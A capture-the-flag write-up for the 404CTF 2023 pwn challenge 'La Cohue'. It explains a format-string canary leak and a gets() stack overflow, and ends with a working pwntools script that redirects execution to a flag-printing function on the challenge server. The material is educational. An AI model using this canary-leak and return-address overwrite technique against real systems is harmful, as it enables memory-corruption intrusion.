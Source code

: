 ```yaml
---
title: CTFs | 404CTF2023 | Pwn | La Cohue
author: Stillwolfing
date: 2023-06-14
categories: ['CTFs', '404CTF2023', 'Pwn']
tags: ['CTFs', '404CTF2023', 'Pwn']
permalink: /CTFs/404CTF2023/pwn/la_cohue
---
```


## Context

![context](/assets/img/CTFs/404CTF2023/pwn/la_cohue/context.png)

We are given this code:

```c
void choices(void)

{
  bool bVar1;
  bool bVar2;
  int has_choose;
  long in_FS_OFFSET;
  int choice;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  choice = 0;
  bVar1 = false;
  bVar2 = false;
  while( true ) {
    while( true ) {
      do {
        puts("Que faites-vous ?");
        puts("\n1 : Aller voir Francis");
        puts(&DAT_00400c18);
        puts(&DAT_00400c4a);
        printf(">>> ");
        fflush(stdout);
        has_choose = __isoc99_scanf(&DAT_00400c6d,&choice);
        if (has_choose != 1) {
                    /* WARNING: Subroutine does not return */
          exit(0);
        }
      } while ((choice < 1) || (6 < choice));
      if (choice != 2) break;
      if (bVar2) {
        puts(&DAT_00400d90);
      }
      else {
        fgets(local_58,0x40,stdin);
        fgets(local_58,0x40,stdin);
        printf("[Vous] : ");
        printf(local_58);
        puts("");
        bVar2 = true;
      }
    }
    if (choice == 3) break;
    if (choice == 1) {
      if (bVar1) {
        puts(
            "\n[Francis] : Je crains que je ne puisse plus compter sur vous pour m\'aider, malheureu sement.\n"
            );
      }
      else {
        puts(&DAT_00400cd0);
        printf("[Vous] : ");
        fgets(local_58,0x40,stdin);
        gets(local_58);
        puts(&DAT_00400d50);
        bVar1 = true;
      }
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

There is also another function:

```c
void canary(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts(&DAT_00400b98);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x48,__stream);
  puts(local_58);
  fclose(__stream);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The canary functions gives the flag so we need to find a way to call this function.

Since there is only one return in the choice function, we have to replace the return address with the canary function address.

```c
gets(local_58);
```

The gets() function reads characters from the input stream and stores them in the buffer until it encounters a newline character or the end of file (EOF) indicator. However, gets() does not perform any bounds checking on the size of the input being read, which means it can write more data into the buffer than it can actually hold.

If we provide input that exceeds the buffer's size, the extra data will overflow into adjacent memory locations, potentially overwriting important data such as function return addresses.

The fact is that the stack is protected by a canary (in_FS_OFFSET + 0x28 variable). The code checks if the canary has been modified before returning.

```c
fgets(local_58,0x40,stdin);
printf("[Vous] : ");
printf(local_58);
```

This code is vulnerable to a format string vulnerability because the printf function does not specify a format string, but directly uses the content of the local_58 buffer as the format string. This can be problematic because if the user inputs a string that contains format specifiers (such as %s, %d, etc.), the printf function will interpret them and try to read values from the stack corresponding to those specifiers. If the values are not present or are incorrect, it can lead to memory corruption, crashes, or even arbitrary code execution.

To display the canary, which is a security mechanism used to detect buffer overflows, an attacker could provide a carefully crafted format string as input. For example, if the canary is stored on the stack before the local_58 buffer, the attacker could include a format specifier in their input like %p to read the values from the stack. By repeatedly including format specifiers and observing the output, the attacker can eventually retrieve the canary value.

Example:

![format_string](/assets/img/CTFs/404CTF2023/pwn/la_cohue/format_string.png)

We can leak the canary:

![canary_leak](/assets/img/CTFs/404CTF2023/pwn/la_cohue/canary_leak.png)

The 17th value ends with 00. It may be the canary.

Now we have to craft our payload.

```
payload = "A" * 0x48 + canary + "A" * 8 + canary_function_address
```

Here's my implementation to get the flag. We get the canary value with the format string vulnerability. Then we craft the payload and use the buffer overflow vulnerability to override the return address. Then we exit the function and get the flag.

```python
import pwn
import time
import warnings
warnings.filterwarnings("ignore")


def voir_francis(conn, msg):
    conn.sendline("1")
    rep = conn.recvuntil(": ").decode()
    conn.sendline(msg)
    rep = conn.recvuntil(">>> ").decode()
    return rep


def reflechir(conn, msg):
    conn.sendline("2")
    conn.sendline(msg)
    rep = conn.recvuntil(">>> ").decode()
    return rep


def partir(conn):
    conn.sendline("3")
    rep = conn.recvline().decode()
    return rep


win = pwn.p64(0x0000000000400877)

conn = pwn.remote("challenges.404ctf.fr", 30223)

rep = conn.recvuntil(">>> ").decode()
print(rep)

canary_payload = "%17$p"
print(canary_payload)

rep = reflechir(conn, canary_payload)
print(rep)

canary = rep.split("[Vous] : ")[1].split("\n")[0]
print("Canary:", canary)

overwrite = b'A' * 0x48
overwrite += pwn.p64(int(canary, 16))
overwrite += b'A' * 8
overwrite += win

print(overwrite)

rep = voir_francis(conn, overwrite)
print(rep)

conn.sendline("3")
rep = conn.recvuntil(b"}")
print(rep.decode())

```

We get the flag 🥳 !

![flag](/assets/img/CTFs/404CTF2023/pwn/la_cohue/flag.png)

I hope you learned something with this writeup 😊.
